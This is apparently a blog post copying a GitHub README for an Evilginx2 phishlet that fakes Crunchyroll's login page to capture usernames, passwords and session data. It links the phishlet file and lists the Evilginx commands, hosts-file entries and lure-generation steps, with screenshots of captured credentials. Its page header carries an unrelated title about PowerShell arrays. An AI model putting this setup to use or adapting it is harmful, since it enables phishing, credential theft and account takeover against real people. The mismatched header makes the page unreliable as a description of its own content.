 ```yaml
---
title: "PowerShell add or remove elements from an Array"
excerpt: "Learn how to create a fake Crunchyroll page to steal logins and passwords using Evilginx2."
categories:
  - Evilginx2
tags:
  - Evilginx2
  - Phising
  - Crunchyroll
  - Crunchyroll phising
  - Steal login and password

toc: true
---
```


crunchyroll phishlet for evilginx2.

Download the phishlet here [crunchyroll.yaml](https://github.com/BieAnimaton/evilginx2-crunchyroll/blob/main/crunchyroll.yaml).

# evilginx2-crunchyroll

crunchyroll phishlet for evilginx2.  
capture the login or register credentials.  
it's not fully working.  

using localhost.

## steps
download or clone this file and extract inside phishlet folder.  
start evilginx.  

`config domain crunchyroll.com`  
`config ipv4 127.0.0.1`

`phishlets hostname crunchyroll login.crunchyroll.com`  
`phishlets enable crunchyroll`  
`phishlets get-hosts crunchyroll`

	127.0.0.1 www.login.crunchyroll.com
	127.0.0.1 sso.login.crunchyroll.com
	127.0.0.1 static.login.crunchyroll.com
	
	# add to C:/Windows/System32/Driver/etc/hosts or /etc/hosts

`lures`  
`lures create crunchyroll -> check generated ID`  
`lures get-url ID`  

	https://sso.login.crunchyroll.com/innRipMA

go to your browser
clear all history
access the generated link
after login or registration get credentials

`sessions`  

## captures

![1](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/b7108ade-658c-4a0e-a017-aebca968f8cc)

![2](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/df2177dd-38e2-4db0-8855-197e3a44f498)

![3](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/4e4027fa-e65b-4555-8734-e5e9db1abe27)

credentials will appear in the console

![4](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/ddb43bac-1e5a-43fd-8a89-9c7524515a34)

sessions information

![5](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/82d44097-9113-4a36-a920-4ff474b43ad2)